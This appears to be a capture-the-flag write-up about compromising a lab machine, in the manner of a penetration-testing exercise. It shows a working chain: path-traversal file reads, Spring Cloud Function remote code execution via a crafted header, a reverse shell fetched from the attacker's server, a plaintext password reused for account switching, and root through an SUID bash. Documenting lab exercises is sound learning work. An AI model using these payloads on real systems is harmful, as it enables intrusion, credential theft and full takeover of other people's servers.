





# Injection_Writeup

## Enumeration
Target host 10.10.11.204
Performed port scan on target with `rustscan -a 10.10.11.207 -- -sV -sC -A`

```php
Open 10.10.11.204:22
Open 10.10.11.204:8080
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV -sC -A" on ip 10.10.11.204
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-05 00:16 AEST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 0.00s elapsed
Initiating Ping Scan at 00:16
Scanning 10.10.11.204 [2 ports]
Completed Ping Scan at 00:16, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:16
Completed Parallel DNS resolution of 1 host. at 00:16, 0.09s elapsed
DNS resolution of 1 IPs took 0.09s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:16
Scanning 10.10.11.204 [1 port]
Discovered open port 8080/tcp on 10.10.11.204
Completed Connect Scan at 00:16, 0.43s elapsed (1 total ports)
Initiating Service scan at 00:16
Scanning 1 service on 10.10.11.204
Completed Service scan at 00:16, 7.59s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.11.204.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 8.05s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 1.54s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 0.00s elapsed
Nmap scan report for 10.10.11.204
Host is up, received conn-refused (0.29s latency).
Scanned at 2023-04-05 00:16:04 AEST for 19s

PORT     STATE SERVICE     REASON  VERSION
8080/tcp open  nagios-nsca syn-ack Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:16
Completed NSE at 00:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.80 seconds
```

Navigating to the http address on port 8080 displays the following below:


Clicking around on the home page reveals that the only working buttons on the page are "home", "Features", "How it works", "Blogs", "Pricing", "Signup", and, "Upload".

Most of these do not provide any useful information.
Navigating to blogs tells us about the potential existence of some users such as:
- Admin
- Brandon Auger


Its clear that we're not able to create an account, not by the way the author intents atleast.



As I was not able to find a lot of useful information, I turned to gobuster to enumerate other possible drectories before moving on to trying to exploit the file upload functionaility.

A directory scan revealed the following diretories.
```go
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.204:8080/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/04/05 12:54:49 Starting gobuster in directory enumeration mode
===============================================================
/register             (Status: 200) [Size: 5654]
/blogs                (Status: 200) [Size: 5371]
/upload               (Status: 200) [Size: 1857]
/environment          (Status: 500) [Size: 712] 
/error                (Status: 500) [Size: 106] 
/release_notes        (Status: 200) [Size: 1086]
```

The release notes path is what we want to pay attetion to here, as it helps us to discover what the vulnerability is.



Earilier on in the port scan we discovered that the server was running some version of Nagios. If we then take what we know about the system and this version number and perform a search on exploitdb, we are left with 3 possible exploits.



Going by the fact that the 3rd result matches the version that was found, it would be assumed that the vulnerability if local file inclusion exploit.

Navigating to the file upload page, I just upload an ordinary jpg that I grabbed off wikipedia.


Once the image has been uploaded, I then receive the following path.
/show_image?img=grapes.jpg

## Exploting LFI
Sending the request to the Burp repeater and then attempting to exploit LFI with the following path "/show_image?img=../../../../../../etc/passwd" shows the following result.



In the results above, 2 users on the machine can be seen, Phil and Frank.
This removes the assumption that the users Admin and Brandon Auger are the users that we want to try and hijack.

Sending another request at the root of the drive allows the user to see the following.
```go
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Some further enumeration shows the users and what files are stored in the root directory of the application. At the path `../../../../../../var/www/WebApp/` We can see the following.
```go
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```

Reading the file `pom.xml` tells the user some information about the server application, which should provide a hint as to what the next exploit is.
```go
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.6.5</version>
    <relativePath/> <!-- lookup parent from repository -->
</parent>
```

Performing some research on the spring framework for version 2.6.5, this reveals an RCE exploit which can be found in the following article [here](https://www.fastly.com/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022).

The article shows that the author managed to find a Remote Code Execution exploit by inserting some Java code into the request header to create a file.
```go
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
Content-Length: 1
```

After creating the above file using the malicious code in the request, the user can verify if this works by using the LFI exploit discovered eariler.

Taking the request header above, the following can be created to exploit the target.
`curl -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('touch /tmp/heythere')" --data-raw -v`

These are the results using the LFI exploit discovered earlier.
```go
.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
heythere
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-ModemManager.service-la5Uki
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-systemd-logind.service-8I00yh
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-systemd-resolved.service-jCbaTf
systemd-private-235c4357ce9649a8ae30dcfd061aaa64-systemd-timesyncd.service-sGK0dh
tmux-1000
tmux-1001
tomcat.8080.3908596987219633944
tomcat.8080.9631068121834054598
tomcat-docbase.8080.5138557187431181977
UjGlX.b64
vmware-root_740-2999460834
```

By chaining the 2 exploits in this application together, the user can get a reverse shell by setting up http server and having the victim read the reverse shell directly from the server and writing the response to the disk.

## Reverse Shell
From here a reverse shell was created on the attacker machine with `echo "/bin/bash -i >& /dev/tcp/10.10.16.15/4242 0>&1" > shell.sh`

Next a http server was started with `python3 -m http.server 8081`

The file was then uploaded to the victim machine by executing the following request.
`curl -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('curl http://10.10.16.15:8081/shell.sh -o /tmp/shell.sh')" --data-raw -v`

A netcat session was then started with `nc -nvlp 4242`.
The reverse shell was then executed by modifying the last command.
``curl -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('/bin/bash /tmp/shell.sh')" --data-raw -v``

## Privesc
As a result from the last command, the user now has a reverse shell.
```go
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.204] 35468
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
frank
bash-5.0$ 
```

Analyzing the home directory, the following output below shows a directory named .m2 in frank which contains a settings.xml file.
```go
ls -al
total 32
drwxr-xr-x 6 frank frank 4096 Apr  5 02:29 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwx------ 3 frank frank 4096 Apr  5 02:29 .gnupg
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
bash-5.0$ cd .m2
cd .m2
bash-5.0$ ls
ls
settings.xml
```

Using the cat command to read the file, credentials to the phil user can be seen below.
```go
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

The output below shows that by using the credentials contained in settings.xml, the user can then use `su -l phil` to change to phil.
```go
bash-5.0$ su -l phil
su -l phil
Password: DocPhillovestoInject123
whoami
phil
```

## Root Shell
After escalating privileges to the phil user, the `find / -perm -4000 2>/dev/null` command was then used to find SUID binaries.
```go
/usr/bin/su
/usr/bin/bash
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

From here the user then executes `/usr/bin/bash -p` and escalates to root.
```go
bash-5.0$ /usr/bin/bash -p
/usr/bin/bash -p
bash-5.0# whoami
whoami
root
```